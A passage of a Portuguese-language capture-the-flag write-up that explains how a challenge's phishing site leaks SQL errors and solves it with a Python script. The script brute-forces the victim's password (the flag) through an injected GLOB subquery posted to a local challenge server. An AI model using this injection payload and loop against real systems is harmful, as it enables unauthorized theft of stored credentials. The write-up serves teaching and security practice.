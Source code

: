 Esse desafio é interessante: a vítima dos desafios, Shou, caiu num site de phishing que não é nosso! Mas o site de phishing em si é vulnerável à SQLi, e sabendo disso, nosso objetivo é extrair a senha dele (a flag) desse site. Para esse caso, o código fonte nos mostra algo interessante: se a query para o banco de dados tiver algum tipo de erro, esse erro será retornado na tela, caso contrário, a query passa e ele redirecionará para a página que mostra que você teve sua senha roubada.

![Código Fonte do Desafio](/assets/source_code_phish.png)

O site não possui nenhum tipo de reflexão de dados na tela, então algum tipo de SQLi que retorne a senha na tela é inviável. No entanto, podemos fazer diferente: como somente erros aparecem na tela, podemos fazer bruteforce da senha injetando uma query que insira uma senha no BD *se e somente se* nosso palpite for uma parte da senha do Shou. Para fazer isso, escrevi o pequeno script abaixo, cujo payload do SQLi e detalhes eu vou descrever melhor abaixo.

```py
from requests import *

if __name__ == '__main__':
    host = "127.0.0.1:4008"
    s = session()

    passwd = "we{"
    name = "nomedeusuario"

    char = '+'
    while '}' not in passwd:

        if char == '?':
            char = chr(ord(char) + 1)

        passwd_iteration = passwd + char
        sqli = f"qqrcoisa',( SELECT password FROM user WHERE username='shou' AND password GLOB '{passwd_iteration}*' ));--"

        form_data = {
            "username": name,
            "password": sqli
        }
        result = s.post(f"http://{host}/add",data=form_data)

        if b"Your password is leaked" in result.content or b"UNIQUE constraint failed" in result.content:
            passwd += char
            char = '+'
            print(f"> HIT: {passwd}")

        elif b"NOT NULL constraint failed" in result.content:
            # print(f"> NOT HIT: {passwd + char}")
            char = chr(ord(char) + 1)
```
